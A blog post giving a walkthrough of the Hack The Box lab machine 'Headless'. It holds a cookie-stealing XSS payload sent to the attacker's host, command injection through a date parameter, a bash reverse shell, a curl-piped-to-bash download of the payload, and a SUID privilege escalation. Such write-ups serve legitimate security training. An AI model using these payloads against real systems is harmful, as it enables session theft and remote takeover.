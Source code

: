```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Headless
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
sudo nmap -Pn -sT -sU -sC -sV 10.10.11.242
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/14b8cd55-fcce-42df-bdf6-9d19d99017d7)

We add headless to /etc/hosts with the corresponding ip address given. Then navigate to `http://headless.htb:5000`


```
echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3bd6636f-3891-49d6-988c-f4de867e7ce6)


#### Directory Enumeration

```
dirsearch -u http://headless.htb:5000
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5a86b5e0-bb85-4ef3-a558-d560c4c57c70)

We can see that there are two pages available; `/support` and `/dashboard`. Let’s visit both of them to find our way into the machine.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a17cd01d-309a-4ee0-baa7-3855e53f86f5)


To access the `/dashboard`, we either need to be logged in as a user with elevated privileges (admin) (but I don’t see a login page), or we need to trick the server into believing that we are authorized to access the URL. When considering how to trick the server, I think about providing it with either an admin cookie or an admin session ID.


### Getting Foothold on Headless

We need to provide a payload that can capture the cookies of the admin user who will be reviewing our support queries. The payload will look like this:

```
<script>document.location='http://<Your_Kali_IP>/?cookie='+document.cookie</script>
```

Additionally, we can URL encode this payload by pressing `Ctrl + u`. Along with this payload, we also need to start an HTTP server using the following command:

```
python3 -m http.server 80
```

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we'll discover that the same payload must be inserted into two specific parameters: message and User-Agent."

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dbd01369-141b-45f5-b0d8-884309419e76)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b6a376a8-a032-4c50-a487-3237efc72d18)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/bd5427da-f098-4705-9575-0ef0fcfb5636)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/66777c23-637e-43fe-850a-5118d9c5badd)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0495bd70-013b-4a9e-b273-fdeb1e6a3dd8)


After waiting for a minute, we can see that we have received the admin user's cookie. Now, we can add this cookie value to our browser using the inspect element feature or cookie editor add-on.

Navigate to `http://headless.htb:5000/dashboard` to access the Administrator Dashboard. Here, you'll encounter an option to generate the website's health report for a specific date. Let's intercept this request via Burp Suite and transfer another POST request to the repeater tool.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1ccfa512-d5e0-4659-a0a0-714eba2024b7)


Within the body of this request, locate the date parameter. We'll attempt to detect a command injection vulnerability using this parameter by employing the following payload:

```
&& pwd
```
Additionally, we can URL encode this payload by pressing `Ctrl + u`. Now, let's send the request and check the response, where we will find that the date parameter is vulnerable to command injection.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d80e730-3305-4f7e-b23f-43491f7e8440)

I make a file named `payload.sh` with the following inside it.

```
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f839669f-b9fe-4b9b-9a63-6856ddb48762)

The IP address should be your IP address, and the port number `/4444` represents the port on which I'm going to open my netcat listener.

```
nc -nlvp 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8e527634-6ff3-4438-b867-e842a22ac53d)

finally run the Python3 HTTP server to host the file (payload.sh) using the following command

```
python3 -m http.server 8081
```

We want to insert a command that will fetch the payload file we created and run it. Make sure that you have your admin cookie listed in the cookie field. (don't forget `ctrl + u`)

```
curl http://10.10.16.18:8081/payload.sh|bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/08581364-7a9a-460a-81f8-4361f07c94d5)


We can see that the payload.sh file is downloaded by the web server and then executed which results in getting a reverse shell on our netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b8328dfb-3cf9-48d3-a726-a77c46c9651e)

get `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cab10a6a-8533-4e2c-ac9f-b995b150d931)


### Privilege Escalation

Now, let's proceed to gain root access on the target machine. We'll initiate by checking the sudo privileges using the following command:

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e6f89830-4912-4b7b-a2b0-d7f65bc5ab9a)


Upon execution, it's revealed that the `dvir` user possesses permission to execute the `/usr/bin/syschec`k binary as the root user. Let's inspect the contents of this binary.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6f9a7877-300c-4df9-a061-daef38545a0a)


We'll discover that there's a bash script named `initdb.sh` that is executed without specifying its full path. Exploiting this vulnerability is straightforward; we create a malicious bash script with the same name. Executing the following commands accomplishes this:

```
echo "chmod u+s /bin/bash" > initdb.sh
```

```
chmod +x initdb.sh
```

Upon executing the `syscheck` binary, our malicious script in the current directory takes precedence. This script assigns the SUID bit of the root user to the /bin/bash file. To witness this in action, we run the command:

```
sudo /usr/bin/syscheck
```

Following this command execution, we proceed to execute `/bin/bash` with the owner's (root) privileges using the command:

```
/bin/bash -p
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/42b97909-aee5-4ae1-a7be-649999bfcd83)

After executing the above command, we'll observe that we have successfully escalated our privileges to the `root` user. Consequently, we can effortlessly access the contents of the `root.txt` file.




